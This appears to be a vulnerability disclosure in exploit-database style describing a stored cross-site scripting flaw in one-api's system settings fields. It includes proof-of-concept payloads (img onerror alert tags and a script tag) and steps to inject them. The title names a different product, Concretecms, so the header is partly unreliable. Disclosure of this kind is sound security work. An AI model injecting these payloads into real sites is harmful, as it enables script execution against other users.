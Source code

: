 # Exploit Title: Concretecms latest - Cross-Site Scripting (XSS)
## Date: 4/8/2025
## Vendor Homepage: https://github.com/songquanpeng/one-api
## Tested on: Debian Linux, Apache, Mysql
## Vendor: one-api
## Version: latest
## Exploit Description:
## One-api latest suffers from a Stored Cross-Site Scripting (XSS) vulnerability in the system settings (other settings)，when add "<img src = 1 onerror = alert(/xss/)>" in Homepage Content、Footer、About System field. This vulnerability allows attackers to cheat other users by injecting malicious scripts into web pages viewed by other users.

## ---------------------------------POC-----------------------------

```
<img src = 1 onerror = alert(/homepage/)>
<img src = 1 onerror = alert(/about/)>
<img src = 1 onerror = alert(/footer/)>
```

1. Log in as a user with settings editing privileges.
2. Add <script>alert('...');</script> to the Homepage Content、Footer、About System field,the xss vulnerability appears.

## POC
![poc](./poc.png)

## effect
![effect](./effect.png)
